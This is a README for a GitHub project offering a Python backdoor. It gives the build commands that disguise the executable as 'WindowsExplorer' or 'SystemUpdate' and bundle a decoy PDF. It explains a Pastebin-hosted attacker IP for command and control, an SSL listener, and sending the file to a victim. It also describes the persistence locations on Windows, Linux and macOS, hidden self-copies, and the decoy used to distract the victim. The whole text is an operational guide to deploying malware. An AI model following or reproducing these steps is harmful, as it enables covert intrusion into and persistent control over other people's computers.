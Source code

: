 # ⚠️ | This Backdoor dosen't bypass windows defender and other AV's completely

## Note :
Unobfuscated backdoor will be detected and quarintined by defender

## Requirements for this to work :
### Attacker's side :
1. Python installed with required packages 
2. Pyinstaller installed
3. Update ur current IP address in [Pastebin.com](https://pastebin.com)
4. If target is windows then package it in windows itself

### Victim's side :
1. Dosen't matter if he has python or not
2. Any OS is fine

## Steps to use this backdoor :
1. ### clone this repo :
    ```zsh
   git clone https://github.com/Anonomous69/Backdoor
   ```

   cd to that directory (also dont forget to change the [Pastebin.com](https://pastebin.com) URL)

2. ### find your pyinstaller path and run :
#### For windows :
    ```shell
    C:\Users\wherever\your\path\is\pyinstaller.exe --onefile --noconsole --name "WindowsExplorer" --icon="icon.ico" --add-data "sample.pdf;." backdoor.py
    ```
  
#### For MacOS :    
```powershell
    /Users/path/to/pyinstaller --onefile --windowed --name "SystemUpdate" --icon="icon.icns" --add-data "sample.pdf:." backdoor.py
```

#### For Linux :
    ```
    pyinstaller --onefile --noconsole --name "sysupdate" --icon="icon.png" --add-data "sample.pdf:." backdoor.py
    ```

   If ran successfully the created executable will be in your newly created "Dist" directory

 5. ### Generate cerificates for SSL encryption (Do this in same directory as listener.py) :
    ```
    openssl req -new -x509 -days 365 -nodes -out cert.pem -keyout key.pem
    ```

4. ### Run Listener is your machine and send the backdoor to target
   ```zsh
   python listeenr.py
   ```
 when target clicks backdoor, you get the connection
 

# Working of this backdoor 

### 🧷 1. **Persistence Setup**
The backdoor first **adds itself to system startup locations** to maintain persistence:

- **Windows:**  
  `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`

- **Linux:**  
  `~/.config/autostart`

- **macOS:**  
  `~/Library/LaunchAgents`

---

### 🕵️ 2. **Self-Copy for Stealth**
It then **copies itself to a hidden/system-like location** and re-executes from there:

- **Windows:**  
  `%TEMP%\WindowsExplorer.exe`

- **Linux:**  
  `~/.local/.sysupdate`

- **macOS:**  
  `~/Library/Application Support/.sysupdate`

---

### 📰 3. **Distraction Mechanism**
To **distract the victim**, it opens a decoy PDF file after execution.
